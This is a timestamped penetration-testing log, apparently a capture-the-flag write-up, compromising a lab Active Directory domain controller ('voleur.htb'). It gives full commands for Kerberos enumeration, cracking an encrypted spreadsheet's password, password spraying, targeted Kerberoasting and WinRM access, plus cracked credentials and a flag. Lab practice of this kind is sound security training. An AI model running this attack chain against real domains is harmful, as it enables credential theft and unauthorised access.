## Testing

Start: 2026-11-24 12:40

IP:
```IP
10.129.101.148
```

Given credential:
```User
ryan.naylor
```
```Passsword
HollowOct31Nyt
```
---
ports

```
sudo nmap -p- -n -Pn -vv --min-rate=5000 10.129.101.148 -oA nmap_ports
```



DNS, Kerberos, RPC, LDAP, SMB, WinRM -> Active Directory Domain Controller

service

```
sudo nmap -sCV -p53,88,135,139,389,445,464,636,2222,3268,3269,5985,9389,49664,49668,49674,49675,54122,54138,64623 -Pn -n -vv --min-rate=5000 10.129.101.148 -oA nmap_service
```



- Domain: `voleur.htb`
- Port 2222/tcp runs SSH: OpenSSH 8.2p1 Ubuntu



- SMB message signing required (No SMB relay in hypothetical realistic network)
- Offsync with DC (Update clock fro kerberos moves)


Authentication check (Given credential)

SMB

```
nxc smb 10.129.101.148 -u 'ryan.naylor' -p 'HollowOct31Nyt'
```



- Hostname: `DC`
- NTLM auth disabled. Forcing Kerberos auth

Switching to hardware host for Kerberos sync, conf, auth...

Edit `/etc/hosts`, add FQDN, Domain, Hostname



Edit `/etc/krb5.conf`



```
[libdefaults]
    default_realm = VOLEUR.HTB
    dns_lookup_kdc = false
    dns_lookup_realm = false

[realms]
    VOLEUR.HTB = {
        kdc = DC.voleur.htb    
        admin_server = DC.voleur.htb    
    }

[domain_realm]
    .voleur.htb = VOLEUR.HTB
    voleur.htb = VOLEUR.HTB
```

Configuration done

Sync with DC

```
sudo ntpdate 10.129.101.148
```



Request a TGT for user `ryan.naylor`

```
getTGT.py VOLEUR.HTB/ryan.naylor:HollowOct31Nyt -dc-ip DC
```



Saved to `ryan.naylor.ccache`

Use it to authenticate via Kerberos, pass it to tools

```
export KRB5CCNAME=ryan.naylor.ccache
```

```
nxc smb DC --use-kcache
```



`KDC_ERR_S_PRINCIPAL_UNKNOWN`

Using FQDN instead of just Hostname, important for kerberos, FQDN always preferred

```
nxc smb DC.voleur.htb --use-kcache
```



Authentication valid via SMB

LDAP

```
nxc ldap DC.voleur.htb --use-kcache
```



- Auth valid via LDAP
- No LDAP message signing, No channel binding (Potential LDAP relay in hypothetical realistic AD network)

WinRM: `nxc winrm only support NTLM currently`, SSH: No response

Enumerating SMB shares

```
nxc smb DC.voleur.htb --use-kcache --shares | tee nxc_shares.txt
```



Read to `IPC$`, `IT`, `NETLOGON`, `SYSVOL`

Quick SYSVOL gpp pass check, no result (nxc -M gpp_password)

smbclient -K option is deprecated

Using nxc spider_plus module to download all files in readable shares

```
nxc smb DC.voleur.htb --use-kcache -M spider_plus -o DOWNLOAD_FLAG=True
```



`IPC$` is excluded



`Access_Review.xlsx` seems the most interesting file, under IT share

Searching "Access_Review.xlsx" for more information: https://policyseed.io/templates/access-review

Its related to "SOC 2" audit, access control, list of accounts and roles / permissions.

Identifying file

```
file Access_Review.xlsx
```



`CDFV2 Encrypted` - composite document file v2 encrypted

Searching how to open this kind of file find: https://isc.sans.edu/diary/25826. Uses: `msoffcrypto-tool` in Linux. Can be installed with pip

It asks for a password, using the given credential password is not valid

```
msoffcrypto-tool Access_Review.xlsx Access_Review_decrypted.xlsx -p 'HollowOct31Nyt'
```

`msoffcrypto.exceptions.InvalidKeyError: The file could not be decrypted with this password`

Using strings can observe some strings lokking like a hash

```
strings Access_Review.xlsx
```



- `encryptedHmacKey="GtZL5dW8voeDA2ATy8J+bdxvUrVOyi5tSPY/Z38TKXhzFEBA8RW6eruYJvwS0mNz0EQneCAGJX/bLBj9d06i/Q=="`
- `encryptedHmacValue="rBAkK9YuO9GrEZLHXUpOvt+kDKyoxEtaFnwiS6A6y+kDfq7HjxB5hkXE7KX0inrMFCw5pNz/GEq3z1NLQhtGkA=="`
- `hashAlgorithm="SHA512"`
- `saltValue="qAgRQCeIwDe1Dfl2hksz9Q=="`
- `encryptedVerifierHashInput="UAvX6DPf+qKHcqSemHvjWw=="`
- `encryptedVerifierHashValue="fsmTxH7zmmHob4JzU23sx9UlaRNFAECSSC+f1Zz6ERwUut+fthS7IPE/xanIIL38YF3YLCe8LP9lCIO5Mv96Gw=="`
- `encryptedKeyValue="S05HflwE/XSfENjh3ByA11JAmy6quA6Bv1//Gv5v/7I="`


Asking Claude Opus 4.8 about this file and secrets, it calls out the option to extract the hash from the encrypted xlsx file with `*2john` utilities as with KeePass, Password Safe, etc... In this case `office2john`. "Office2john Extract hashes from encrypted Microsoft Office files (.doc, .docx, .xls, .xlsx, .ppt, .pot)"

```
office2john Access_Review.xlsx
```



Hash
```
Access_Review.xlsx:$office$*2013*100000*256*16*a80811402788c037b50df976864b33f5*500bd7e833dffaa28772a49e987be35b*7ec993c47ef39a61e86f8273536decc7d525691345004092482f9fd59cfa111c
```

Strip the file name prefix (`Access_Review.xlsx:`) and save to file (`voleur.Access_Review.xlsx.hash`)

Searching `$office$*2013*` prefix in https://hashcat.net/wiki/doku.php?id=example_hashes



Mode `9600`

Cracking with hashcat and rockyou.txt

```
hashcat voleur.Access_Review.xlsx.hash -m 9600 rockyou.txt
```



Cracked. Plaintext password: `football1`

Opening file with password using the previous tool

```
msoffcrypto-tool Access_Review.xlsx Access_Review_decrypted.xlsx -p 'football1'
```

Check output file type

```
file Access_Review_decrypted.xlsx
```



`Microsoft Excel 2007+`

Open with LibreOffice Calc



Very interesting information

Users and service accounts
```
ryan.naylor
marie.bryant
lacey.miller
todd.wolfe
jeremy.combs
svc_backup
svc_ldap
svc_iis
svc_winrm
```

1. `ryan.naylor` has Pre-Auth disabled (AS-REP roasting), but is already controlled
2. `todd.wolfe` seems to be deleted (password: `NightT1meP1dg3on14`)
3. `svc_ldap` has P/W (assumed is password) = `M1XyC9pW7qT5Vn`
4. `svc_iis` same as `svc_ldap`, with password = `N5pXyW1VqM7CZ8`

And permissions information...

Passwords:
```
NightT1meP1dg3on14
M1XyC9pW7qT5Vn
N5pXyW1VqM7CZ8
```

Checking domain password policy

```
nxc smb DC.voleur.htb --use-kcache --pass-pol
```



No Account Lockout Threshold. Can validate passwords without needing to carefully spray

Checking all users and passwords. (users saved in `users.txt` and passwords in `passwords.txt` `[+ controlled user password]`)

```
nxc smb DC.voleur.htb -u users.txt -p passwords.txt -k --continue-on-success
```



- `todd.wolfe` confirmed disabled
- 2 valid credentials matching document account - password: `svc_ldap` and `svc_iis`

```
svc_ldap
```
```
M1XyC9pW7qT5Vn
```

```
svc_iis
```
```
N5pXyW1VqM7CZ8
```


Bloodhound enumeration

```
sudo $(which bloodhound-python) -u 'ryan.naylor' -p 'HollowOct31Nyt' -ns 10.129.101.148 -d voleur.htb -c all -k --zip
```



Saved to `20261124232354_bloodhound.zip`

Break

Stop: 2026-11-24 15:20

Start: 2026-11-24 15:40

Deploy GUI

```
curl -L https://ghst.ly/getbhce -o docker-compose.yml
sudo docker compose up
```

Wait a few seconds to start

(To find password in terminal: Ctrl + Shift + F > "Initial Password")

Browse http://localhost:8080/ui/login and login with `admin:<pass>`

Upload ZIP

The file is hanging processing. Using bloodhound-python instead of rusthound is the only difference from previous tests where worked perfectly. Since have to authenticate via kerberos, have to use hardware host, and in this host couldnt install rusthound, thats why used python as fallback. The problem is bloodhound-python was made for legacy bloodhound, and im using more modern bloodhound CE. Looking for alternatives now find nxc has a ingestor mode for bloodhound CE (Added in Dec 24, 2025 v.1.5.0: https://github.com/Pennyw0rth/NetExec/releases/tag/v1.5.0: "Make nxc compatible with bloodhound-ce zip by [@mpgn](https://github.com/mpgn) in [#664](https://github.com/Pennyw0rth/NetExec/pull/664). BloodHound Community Edition is taking over and now we also support its collector. If you want to swap to the legacy collector, change the config setting.").

Using nxc to collect data files that hopefully are compatible now and can get processed

```
nxc ldap DC.voleur.htb --use-kcache --bloodhound --collection All
```

After a couple of `[-] Could not find a domain controller. Consider specifying a domain and/or DNS server.`, it seems it needed `--dns-server` flag.

```
nxc ldap 10.129.101.148 --use-kcache --bloodhound --collection All --kdcHost DC.voleur.htb -d voleur.htb --dns-server 10.129.101.148
```



Now Uploading ZIP process inmediatly as usual. Continuing.

- `Explore > SEARCH > "ryan.naylor" > right click object > Add to Owned`
- `Explore > SEARCH > "svc_ldap" > right click object > Add to Owned`
- `Explore > SEARCH > "svc_iis" > right click object > Add to Owned`

Administration > BloodHound Configuration > Analyze Now

Explore > CYPHER > "Shortest paths from Owned objects"

No result

Searching outbound controls manually for each owned account

`svc_ldap`



1. WriteSPN > `svc_winrm` account (member of RMU)
2. Member of `Restore_Users` group > GenericWrite > `lacey.miller` (and `Second-Line Support` Organizational Unit but only `lacey.miller` in it)

(`svc_iis` has no outbound controls)

Getting `svc_ldap` TGT

```
getTGT.py VOLEUR.HTB/svc_ldap:M1XyC9pW7qT5Vn -dc-ip DC
```



Saved in `svc_ldap.ccache`

Abusing WriteSPN > `svc_winrm` by writing SPN and kerberoasting (targeted kerberoast)

Export TGT

```
export KRB5CCNAME=svc_ldap.ccache
```

```
targetedKerberoast/targetedKerberoast.py -v -d 'voleur.htb' -u 'svc_ldap' -f hashcat --dc-ip 10.129.101.148 -k --no-pass --request-user svc_winrm --dc-host 'DC.voleur.htb'
```



Saving hash to `voleur.svc_winrm.hash`

Cracking with mode 13100 for TGS-REP and rockyou.txt

```
hashcat voleur.svc.winrm.hash -m 13100 rockyou.txt
```



Cracked. Plaintext password: `AFireInsidedeOzarctica980219afi`

```
svc_winrm
```
```
AFireInsidedeOzarctica980219afi
```

Add to owned objects in BloodHound

Getting `svc_winrm` TGT

```
getTGT.py VOLEUR.HTB/svc_winrm:AFireInsidedeOzarctica980219afi -dc-ip DC
```



Saved in `svc_winrm.ccache`

Export

```
export KRB5CCNAME=svc_winrm.ccache
```

Connecting via WinRM

```
evil-winrm -i DC -u svc_winrm -K svc_winrm.ccache -r VOLEUR.HTB
```

Connected. Context:

```
whoami ; ipconfig
```



Connected as `svc_winrm` to target system `DC.voleur.htb` with IP: 10.129.101.148

User flag

```
type C:\Users\svc_winrm\Desktop\user.txt
```

user.txt: `f9a07250e124f91cc67cecf5d54efd68`

No privilege tokens stand out

Break

Stop: 2026-11-24 17:20
Start: 2026-11-24 18:10

Abusing previously discovered `svc_ldap` GenericWrite control over `lacey.miller`

Shadow credentials (although apparently no ADCS, CA)

```
export KRB5CCNAME=svc_ldap.ccache
```

```
pywhisker -d "voleur.htb" -k --no-pass --target "lacey.miller" --action "add" --dc-ip 10.129.101.148
```

`[!] Error while anonymous logging into voleur.htb`


Trying with targeted kerberoast as with `svc_winrm` now for `lacey.miller`

```
./targetedKerberoast.py -v -d 'voleur.htb' -u 'svc_ldap' -f hashcat --dc-ip 10.129.101.148 -k --no-pass --request-user lacey.miller --dc-host 'DC.voleur.htb'
```



Saving hash to `voleur.lacey.miller.hash`

```
hashcat voleur.lacey.miller.hash -m 13100 rockyou.txt
```

`Status: Exhausted`. Not cracked

Dont find any potential path by querying BloodHound

Enumerating with other accounts

```
export KRB5CCNAME=
```

```
~/tools/bin/nxc smb DC.voleur.htb --use-kcache --shares
```

Same permissions as expected, same for other `svc` accounts

Spraying unchecked new password: `AFireInsidedeOzarctica980219afi`

```
nxc smb DC.voleur.htb -u users.txt -p 'AFireInsidedeOzarctica980219afi' -k --continue-on-success
```

No reuse

Ending test

End: 2026-11-24 18:40

---
#### Post-testing
##### Time frame
Start: 2026-11-24 12:40
Stop: 2026-11-24 15:20

Start: 2026-11-24 15:40
Stop: 2026-11-24 17:20

Start: 2026-11-24 18:10
End: 2026-11-24 18:40

Total time = 6h
Total time Testing = 4h 50m
##### Techniques
- *(Overall)* Enumerating and probing a domain with NTLM disabled, using kerberos
	- Edit configuration (`/etc/krb5.conf`, `/etc/hosts`)
	- Sync clock with KDC
	- Get TGT (impacket `getTGT`)
	- Export TGT and use with tools (`-k`, `--no-pass`, etc...)
- Extracting hash from password protected Microsoft encrypted file (`.xlsx` - `CDFV2 Encrypted`) using `office2john`
- Decrypt Microsoft encrypted file (`.xlsx` - `CDFV2 Encrypted`) using `msoffcrypto-tool` for Linux
- Collecting Domain data using NetExec BloodHound ingestor feature
- Abusing ACE WriteSPN over account -> Targeted Kerberoast
##### Sources
- Access Review xlsx files info: https://policyseed.io/templates/access-review
- Usage of `msoffcrypto-tool`: https://isc.sans.edu/diary/25826
- Hascat modes table: https://hashcat.net/wiki/doku.php?id=example_hashes
- NetExec release adding ingestor for BH CE: https://github.com/Pennyw0rth/NetExec/releases/tag/v1.5.0
